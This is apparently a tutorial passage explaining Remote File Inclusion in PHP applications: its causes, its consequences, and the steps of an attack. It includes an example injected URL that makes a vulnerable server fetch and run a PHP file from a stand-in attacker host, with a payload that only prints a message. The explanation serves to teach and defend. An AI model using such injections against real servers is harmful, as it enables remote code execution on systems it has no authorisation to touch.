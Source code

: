 Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.  

  

The risk of RFI is higher than [[LFI]] since RFI vulnerabilities allow an attacker to gain Remote Command Execution ([[RCE]]) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([[XSS]])
- Denial of Service ([[DoS]])

  

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via [[HTTP]] requests, and the content of the malicious file executes on the vulnerable application server.  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png)  

RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.